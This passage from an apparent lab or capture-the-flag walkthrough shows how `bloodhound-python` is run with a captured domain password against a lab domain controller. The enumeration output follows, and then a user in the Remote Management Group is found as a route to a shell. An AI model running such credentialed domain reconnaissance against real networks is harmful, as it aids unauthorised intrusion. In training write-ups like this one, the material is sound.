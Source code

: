 Loads of hashes available. Now the question is which user is part of the Remote Management Group?&#x20;

### Bloodhound --> Shell

We can use `bloodhound-python` to query the domain using the existing credentials we have.&#x20;

```
$ bloodhound-python -d resourced.local -u v.ventz -p 'HotelCalifornia194!' -c all -ns 192.168.219.175
INFO: Found AD domain: resourced.local
INFO: Getting TGT for user
INFO: Connecting to LDAP server: resourcedc.resourced.local
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 1 computers
INFO: Connecting to LDAP server: resourcedc.resourced.local
INFO: Found 14 users
INFO: Found 52 groups
INFO: Found 2 gpos
INFO: Found 1 ous
INFO: Found 19 containers
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: ResourceDC.resourced.local
INFO: Done in 00M 33S
```

We can then upload all of this information to `bloodhound`. Then, we find that `l.livingstone` is part of the Remote Management Group:

<figure><img src="../../../.gitbook/assets/image (18) (1) (1).png" alt=""><figcaption></figcaption></figure>
